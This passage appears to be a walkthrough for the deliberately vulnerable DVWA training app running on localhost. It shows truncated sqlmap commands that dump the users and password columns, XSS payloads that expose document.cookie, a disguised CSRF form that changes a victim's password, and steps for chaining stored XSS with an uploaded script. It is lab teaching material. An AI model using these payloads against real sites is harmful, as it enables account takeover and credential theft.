 ```

...curity=low" -D "dvwa" --tables

...curity=low" -T "users" --columns

...curity=low" -C "password" --dump
```

## XSS DOM (queryparams)
On the URL line type
```
http://localhost:88/vulnerabilities/xss_d/?default=English#<script>alert(document.cookie)</script>
```

## XSS Reflected
Type
```
<body onload=alert(document.cookie)>
```
## XSS Stored

Only the name box is vulnerable: change the html paramter with **inspect** and modify `maxlength` to enlarge the name input size! And then
```
<img src=sd onerror="alert(document.cookie)">
```

## CSRF
Copy the form, hide all the input buttons, make the URL action match the dvwa one and "deploy" the new website to trick customers to click on the submit button. If they are logged into the app, the password will be changed without them knowing!
This is the example html: the *low level* can be solved with this.
```
<form action="http://localhost:88/vulnerabilities/csrf/?" method="GET">
            <h1>Click on this button to win 1000$</h1>
            <input type="hidden" autocomplete="off" name="password_new" value="hack">
            <input type="hidden" autocomplete="off" name="password_conf" value="hack">
            <input type="submit" value="Win!" name="Change">
        </form>
```
*At higher security levels*, you need to exploit the other DVWA XSS vulnerablities to acquire a valid session token, otherwise the POST will not work. Prepare a javascript that fetches the token from the crsf page of dvwa and then send the forged request (check *venom/csrf.html*). The script must be executed by the user on the dvwa: for example, use the **XSS (Stored)** vulnerablity to inject a hyperlink to the script and wait for the user to click on it:

 1. Move to the folder where your **csrf.html** with your terminal
 2. Upload the file (e.g. in low security) to the dvwa: `hackable/uploads/csrf.html`
 3. The html is now ready and you can inject it as in **XSS (Stored)**:
```
<a href="http://localhost:88/hackable/uploads/csrf.html">Click Me!</a>
```
### Observation: 
You could have tried to serve the file, e.g. go with terminal to the folder of the file and then run `python -m http.server`. Your **crsf.html** file will be at `http://localhost:8000/csrf.html`. Unfortunately, **CORS** of modern browser will prevent this approach (also in *low* leve!)
